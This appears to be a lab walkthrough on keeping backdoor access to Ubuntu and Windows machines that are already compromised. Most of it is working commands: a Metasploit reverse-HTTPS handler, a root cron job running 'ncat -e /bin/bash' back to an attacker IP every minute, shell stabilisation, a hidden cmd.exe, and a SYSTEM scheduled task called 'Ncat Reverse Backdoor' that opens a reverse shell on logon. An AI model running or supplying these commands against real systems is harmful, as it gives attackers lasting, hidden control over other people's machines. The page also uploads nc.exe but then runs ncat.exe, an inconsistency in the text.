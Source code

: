 Open up a terminal window and start the listener in order to see the current active sessions.

`msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_https; set LHOST 192.168.100.100; set LPORT 4443;set ExitOnSession false;exploit -j -z;"`

## Infiltrating Ubuntu

You can check "sessions" in msfconole using `sessions`
Let's start with the Ubuntu machine.
`sessions 1`

Using `shell` we can interact with the machine as _"Root"_

Knowing that, use `echo "* * * * * ncat -e /bin/bash 192.168.100.100 4444" >> /var/spool/cron/crontabs/root` in order to create a new cronjob on the Root account that will allow you to get a reverse shell at any given time.
#### Stabilizing the Shell

After successfully gaining the reverse shell, it's usually missing autocompletion and symbol deletion options, among other features.
In order to have a fully interactive shell, you must stabilize it.

Using the following steps, continue to stablize the shell using Python.

_Import pty module and spawn bash shell:_ 
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Press _(CTRL + Z )_ to background process and get back to your host machine.

Use _stty_ command to set terminal line settings and foreground back the target terminal:
`stty raw -echo; fg`

Set the terminal emulator to xterm: `export TERM=xterm`

Now that the shell is fully interactive and stabilized, use `whoami` to double-check the current user privileges and ensure you have the expected level of access on the target system.
## Infiltrating Windows

Using Ncat as a Trojan on Windows requires a more advanced approach, and for this, we will utilize the Meterpreter shell along with the robust capabilities of MSFConsole.

First, return to the initial terminal and exit the Ubuntu session by pressing (_CTRL + C_ ). This will allow us to establish a connection to the Windows machine. Once disconnected from Ubuntu, reconnect to the Windows session by entering:
`sessions 2`

To maintain persistence on the target system using Ncat as a Trojan, we must use MSFConsole's _Upload_ feature to transfer the Ncat executable from the Kali machine to the target Windows machine using the following command:

`upload /usr/share/windows-binaries/nc.exe C:\users\labuser\downloads`

`execute -f cmd.exe -i -H`

This command runs _cmd.exe_ interactively and hides the process, allowing you to execute commands on the target system without visibility to the user.

`schtasks /create /sc onlogon /tn "Ncat Reverse Backdoor" /tr "C:\users\labuser\downloads\ncat.exe 192.168.100.100 4445 -e cmd.exe" /ru SYSTEM`

This command creates a scheduled task named "Ncat Reverse Backdoor" that runs on user logon and executes ncat.exe to connect back to the attacker's IP (192.168.100.100) on port 4445, launching a command prompt as the SYSTEM user.

Ensure that the scheduled task named "Ncat Reverse Backdoor" has been created successfully:
`schtasks /query /tn "Ncat Reverse Backdoor"`

We have to upload as nc.exe is not available on widows by default

With the scheduled task successfully created and verified, suspend the interactive session by pressing _CTRL + Z_ to return to the Meterpreter shell.

From the Meterpreter shell, issue the `reboot` command to restart the Windows machine, which will trigger the scheduled task and initiate the reverse shell connection.

Next, open a new terminal window and start the listener by entering the following command:
`nc -lvp 4445`

Once the reverse shell connection is established, confirm it by using commands such as `dir` or `systeminfo` to verify access to the target system.

